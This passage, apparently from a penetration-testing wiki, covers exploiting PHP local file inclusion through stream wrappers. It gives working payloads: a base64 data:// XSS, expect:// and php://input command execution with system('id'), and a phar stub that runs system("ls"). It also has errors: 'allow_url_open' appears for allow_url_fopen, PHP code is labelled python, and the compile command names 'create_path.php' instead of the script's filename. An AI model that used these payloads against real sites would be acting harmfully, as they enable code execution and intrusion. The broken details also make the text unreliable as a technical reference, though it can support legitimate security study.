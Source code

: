Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

Note that this protocol is restricted by php configurations **`allow_url_open`** and **`allow_url_include`**

### expect://

Expect has to be activated. You can execute code using this.

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### input://

Specify your payload in the POST parameters

```
http://example.com/index.php?page=php://input
POST DATA: <?php system('id'); ?>
```

### phar://

A `.phar` file can be also used to execute PHP code if the web is using some function like `include` to load the file.

{% code title="create_phar.php" %}
```python
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');

$phar->stopBuffering();
```
{% endcode %}

And you can compile the `phar` executing the following line:

```bash
php --define phar.readonly=0 create_path.php
```

A file called `test.phar` will be generated that you can use to abuse the LFI.

If the LFI is just reading the file and not executing the php code inside of it, for example using functions like _**file\_get\_contents(), fopen(), file() or file\_exists(), md5\_file(), filemtime() or filesize()**_**.** You can try to abuse a **deserialization** occurring when **reading** a **file** using the **phar** protocol.\
For more information read the following post:

{% content-ref url="phar-deserialization.md" %}
[phar-deserialization.md](phar-deserialization.md)
{% endcontent-ref %}
